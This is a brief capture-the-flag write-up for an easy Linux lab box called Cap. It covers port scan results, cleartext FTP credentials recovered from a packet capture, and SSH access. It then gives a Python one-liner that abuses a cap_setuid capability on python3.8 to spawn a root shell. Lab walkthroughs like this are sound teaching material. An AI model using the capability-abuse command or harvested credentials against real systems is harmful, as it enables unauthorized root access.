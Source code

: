 # Cap Write-Up

Easy

Tags: 
`IDOR Exploitation`
`Packet Capture Analysis`
`Clear Text Credentials`
`SUID Exploitation`

## Intro

1. Use wireshark to capture packet
2. linpeas.sh to escalate privilege

## Exploit

### Port scanning

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

### Use `WireShark`

username: `nathan`
password: `Buck3tH4TF0RM3`

Connect ssh

## Privilege Escalation

Use `linpeas.sh`

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Search [/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip](https://useful.adindrabkin.com/hacker-mode/linux-privilege-escalation-checklist)

```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```